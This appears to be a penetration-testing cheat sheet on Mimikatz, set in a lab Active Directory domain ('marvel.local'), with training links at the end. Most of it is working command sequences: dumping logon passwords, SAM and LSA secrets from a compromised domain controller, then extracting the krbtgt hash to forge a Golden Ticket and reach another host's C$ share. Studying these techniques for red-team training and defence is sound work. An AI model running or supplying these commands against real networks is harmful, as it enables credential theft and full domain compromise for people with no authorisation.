 #### What is Mimikatz?

* Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
* Dumps credentials stored in memory
* Just a few attacks: Credential dumping, Pass-the-hash, Over-pass-the-hash, Pass-the-ticket, Golden Ticket, Silver Ticket

### Credential Dumping

Assuming we have already compromised the Domain Controller

```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords  # Check for logon users passwords in memory
lsadump::sam  # Try to dump the SAM
lsadump::lsa /patch  # Try to dump the LSA
```

## Golden Ticket Attacks

```powershell
mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgt
# Copy the SID of the domain ex: S-1-5-21-xxxx-xxxx-xxxx
# Copy the NTLM Hash of the kerberos TGT account
kerberos::golden /User:Administrator /domain:marvel.local /sid:<SID> /krbtgt:<NTLM Hash> /id:500 /ptt
# Look for "Golden ticket for ... successfully submitted for current session
misc::cmd  # Start a command prompt utilizing session using golden ticket we created
dir \\THEPUNISHER\c$  # We have access to this machine
# And then can try psexec.exe \\THEPUNISHER cmd.exe
```

## Additional Resources

Active Directory Security Blog: [https://adsecurity.org/](https://adsecurity.org/)

Harmj0y Blog: [http://blog.harmj0y.net/](http://blog.harmj0y.net/)

Pentester Academy Active Directory: [https://www.pentesteracademy.com/activedirectorylab](https://www.pentesteracademy.com/activedirectorylab)

Pentester Academy Red Team Labs: [https://www.pentesteracademy.com/redteamlab](https://www.pentesteracademy.com/redteamlab)

eLS PTX: [https://elearnsecurity.com/product/ecptx-certification/](https://elearnsecurity.com/product/ecptx-certification/)

